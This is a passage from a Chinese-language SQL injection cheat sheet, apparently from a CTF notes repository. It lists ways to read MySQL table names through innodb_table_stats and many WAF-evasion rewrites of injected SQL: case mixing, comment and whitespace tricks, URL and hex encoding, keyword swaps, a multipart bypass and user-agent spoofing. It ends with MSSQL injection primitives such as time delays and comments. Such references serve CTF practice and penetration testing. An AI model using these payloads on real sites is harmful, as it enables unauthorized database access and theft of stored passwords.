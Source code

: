 - innodb
    - 表引擎为innodb
    - MySQL > 5.5
    - innodb_table_stats、innodb_table_index存放所有库名表名
    - `select table_name from mysql.innodb_table_stats where database_name=资料库名;`
    - Example: [Codegate2018 prequal - simpleCMS](https://github.com/w181496/CTF/tree/master/codegate2018-prequal/simpleCMS)

- Bypass WAF

    - `select password` => `SelEcT password` (大小写)
    - `select password` => `select/**/password` (绕空白)
    - `select password` => `s%65lect%20password` (URLencode)
    - `select password` => `select(password)` (绕空白)
    - `select password` => `select%0apassword` (绕空白)
        - %09, %0a, %0b, %0c, %0d, %a0
    - `select password from admin` => `select password /*!from*/ admin` (MySQL注解)
    - `information_schema.schemata` => ``` `information_schema`.schemata ``` (绕关键字/空白)
        - ``` select xxx from`information_schema`.schemata``` 
    - `select pass from user where id='admin'` => `select pass from user where id=0x61646d696e` (绕引号)
        - `id=concat(char(0x61),char(0x64),char(0x6d),char(0x69),char(0x6e))`
    - `?id=0e2union select 1,2,3` (科学记号)
        - `?id=1union select 1,2,3`会烂
        - `?id=0e1union(select~1,2,3)` (~)
        - `?id=.1union select 1,2,3` (点)
    - `WHERE` => `HAVING` (绕关键字)
    - `AND` => `&&` (绕关键字)
        - `OR` => `||`
        - `=` => `LIKE`
        - `a = 'b'` => `not a > 'b' and not a < 'b'`
        - `> 10` => `not between 0 and 10`
    - `LIMIT 0,1` => `LIMIT 1 OFFSET 0` (绕逗号)
        - `substr('kaibro',1,1)` => `substr('kaibro' from 1 for 1)`
    - Multipart/form-data绕过
        - http://xdxd.love/2015/12/18/%E9%80%9A%E8%BF%87multipart-form-data%E7%BB%95%E8%BF%87waf/
    - 伪造User-Agent
        - e.g. 有些WAF不封google bot

## MSSQL

- 子字符串：
    - `SUBSTRING("abc", 1, 1) => 'a'`
- Ascii function
    - `ascii('A') => 65 `
- Char function
    - `char(65) => 'a'`
- Concatenation
    - `+`
    - `'a'+'b' => 'ab'`
- Delay function
    - `WAIT FOR DELAY '0:0:10'`
- 空白字元
    - `01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20`
- IF语句
    - IF condition true-part ELSE false-part
    - `IF (1=1) SELECT 'true' ELSE SELECT 'false'`
- 注解：
    - `--`
    - `/**/`
- TOP
    - MSSQL没有`LIMIT N, M`的用法
    - `SELECT TOP 87 * FROM xxx` 取最前面87笔
    - 取第78~87笔